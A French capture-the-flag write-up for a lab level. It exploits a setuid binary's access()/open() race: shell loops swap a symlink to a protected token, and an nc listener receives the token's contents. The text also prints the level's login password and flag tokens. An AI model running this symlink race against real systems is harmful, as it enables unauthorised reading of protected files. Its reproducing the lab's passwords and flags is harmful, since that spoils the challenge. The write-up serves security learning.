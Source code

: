 # Level10

Se connecter en tant que level10:

    $ ssh 192.168.1.124 -p 4242 -l level10
    level10@192.168.1.124's password: s5cAJpM8ev6XHw998pRWG728z

---

Premiere étape de recherche

    $ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token

> Comme pour le level 8 et 9 nous avons toujours 2 fichiers, un binaire portant le nom du level et un fichier token.
> Mais pour le level 8 et 10, n'avons pas les droits pour lire le fichier token, mais le binaire possède un stickybit qui lui donne les droit de son owner flag10, qui est le même que l'owner du token.

    $ ./level10
    ./level10 file host
    sends file to host if you have access to it

> Le programme envoi un fichier vers une adresse à première vue

    $ ./level10 token localhost
    You don't have access to token

    $ ./level10 .profile localhost
    Connecting to localhost:6969 .. Unable to connect to host localhost

> Pas de problèmes de droits avec un fichier appartenant à level10

Donc le programme essaye de se connecter à une adresse IP passée en argument sur le port 6969 et d'écrire le fichier passé en argument sur le serveur.

On va devoir chercher un peu plus avec GDB

    $ gdb level10
    $ (gdb) disas main
    ...
    0x08048749 <+117>:	call   0x80485e0 <access@plt>
    ...
    0x0804889b <+455>:	call   0x80485a0 <open@plt>
    ...

> On voit un appel à access très tôt (surement pour checker les droits du fichier à ouvrir) et le open est fait bien plus loin, après l'ouverture de la socket

Avant de se connecter, la fonction access est appellée afin de vérifier les droits de l'utilisateur réel (donc qui exécute le binaire). L'utilisateur réel level10 n'as pas les droits sur le fichier token.

Mais l'utilisation d'access puis open crée un trou de sécurité comme l'explique le man de [access](http://manpagesfr.free.fr/man/man2/access.2.html), car entre le temps de la vérification et de l'ouverture nous pouvons crée un lien symbolique d'un fichier ou quel nous n'avons pas les droits réel.

Ainsi, il est possible de donner en paramètre à lexécutable un fichier sur lequel nous avons tous les droits, afin que la fonction access retourne une réponse positive.

Ensuite, en passant l'adresse IP de la machine 192.168.1.124, l'executable level10 attend une réponse ce qui nous laisse le temps de créer un lien symbolique sur le fichier passé en paramètre vers le fichier token:

    $ while true; do ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit; done

    $ while true; do ./level10 /tmp/exploit 192.168.1.124; done

    $ nc -lv 6969
    [...]
    .*( )*.
    woupa2yuojeeaaed06riuj63c

    $ su flag10
    Password:
    Don't forget to launch getflag !
    $ getflag
    Check flag.Here is your token : feulo4b72j7edeahuete3no7c
